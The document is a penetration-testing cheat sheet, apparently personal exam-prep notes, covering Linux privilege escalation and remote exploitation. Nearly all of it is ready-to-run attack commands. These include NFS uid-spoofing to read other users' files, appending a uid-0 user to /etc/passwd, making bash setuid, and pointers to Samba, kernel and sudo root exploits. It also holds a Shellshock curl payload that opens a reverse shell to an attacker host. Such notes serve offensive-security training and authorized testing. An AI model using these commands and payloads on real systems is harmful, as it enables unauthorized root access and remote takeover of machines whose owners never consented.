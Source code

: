 [MySQL User Defined Functions](https://redteamnation.com/mysql-user-defined-functions/)

check if user = root

```shell
cat /etc/mysql/mariadb.conf.d/50-server.cnf | grep user
```

NFS mount privilege

```shell
showmount -e <target ip>
# Export list for <target ip>:
# /home/tester    *
mkdir /tmp/tester
sudo mount -t nfs <target ip>:/home/tester /tmp/tester
find /tmp/tester -ls
# file permission, match uid
# drwxr-xr-x   2 1003     1003         1234 Feb 15 13:59 /tmp/Documents
sudo useradd tester01
sudo usermod -u 1003 tester01
sudo su tester01 -c bash
ls -la /tmp/tester
```

/etc/passwd

```shell
# generating password
openssl passwd -1 -salt 1234 <password>
# openssl passwd -1 -salt 1234 test1234
# $1$1234$LedaKjyvU08i2tNM5HGSg.
# create new user
# echo "test01:\$1\$1234\$LedaKjyvU08i2tNM5HGSg.:0:0:root:/root:/bin/bash" >> /etc/passwd
# su test01
```

ShellShock

```shell
# recon
nikto -url http://<target ip>/cgi-bin
nmap <target ip> -p <target port> --script=http-shellshock --script-args uri=/cgi-bin/home.cgi
# reverse shell
curl -H "User-Agent: () { :; }; /bin/bash -c 'echo aaaa; bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1; echo zzzz;'" http://<target ip>/cgi-bin/home.cgi | sed -n '/aaaa/{:a;n;/zzzz/b;p;ba}'
```

[Escaping Restricted Linux Shells](https://www.sans.org/blog/escaping-restricted-linux-shells/)

```
restricted: cannot specify `/' in command names
```

#### Chrome

--remote-debugging-port

```
chrome://inspect/
```

[CVE-2012-0056] memodipper

```
https://www.exploit-db.com/exploits/18411
```

```
exploit/linux/samba/trans2open
```

#### Tasks

```shell
chmod +s /bin/bash
bash -p
```

#### old machine

- Samba versions 2.2.0 to 2.2.8

```
trans2open
```

- Samba 3.0.24

```
https://github.com/mikaelkall/HackingAllTheThings/tree/master/exploit/linux/remote/CVE-2010-0926_smb_symlink_traversal
```

- Compiling the exploit binary sometimes has to be done on the same version of the machine.

- CVE-2020-1938 Ghostcat

- [CVE-2010-3904](https://www.exploit-db.com/exploits/15285) RDS privilege escalation exploit

- [sudo 1.8.31](https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit)，use the `make` command on the target machine to create exploit file.